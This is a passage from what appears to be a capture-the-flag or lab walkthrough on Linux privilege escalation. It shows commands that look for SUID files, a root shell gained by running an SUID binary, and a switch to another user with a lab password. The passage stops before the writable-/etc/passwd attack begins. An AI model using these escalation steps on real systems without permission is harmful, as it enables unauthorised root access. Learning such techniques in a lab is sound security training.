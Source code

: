 
The script for this in LinEnum is this:
```
ls -la /etc/passwd 2>/dev/null 
```
## Abusing SUID/GUID Files
What is the path of the file in user3’s directory that stands out to you?
```
user3@polobox:~$ find ~ -perm -u=s -type f 2>/dev/null
/home/user3/shell
```
We know that "shell" is an SUID bit file, therefore running it will run the script as a root user! Lets run it!

We can do this by running: "./shell"
```
user3@polobox:~$ ./shell
You Can't Find Me
Welcome to Linux Lite 4.4 user3
 
Sunday 11 February 2024, 18:11:12
Memory Usage: 350/1991MB (17.58%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
root@polobox:~# id
uid=0(root) gid=0(root) groups=0(root),1002(user3)
root@polobox:~# whoami
root
root@polobox:~# 

```
## Exploiting Writeable /etc/passwd

First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user7, with the password "password"
```
root@polobox:~# exit
exit
user3@polobox:~$ su user7
Password: 
Welcome to Linux Lite 4.4 user7
 
Sunday 11 February 2024, 18:13:11
Memory Usage: 350/1991MB (17.58%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user7@polobox:/home/user3$ 

```
Having read the information above, what direction privilege escalation is this attack?

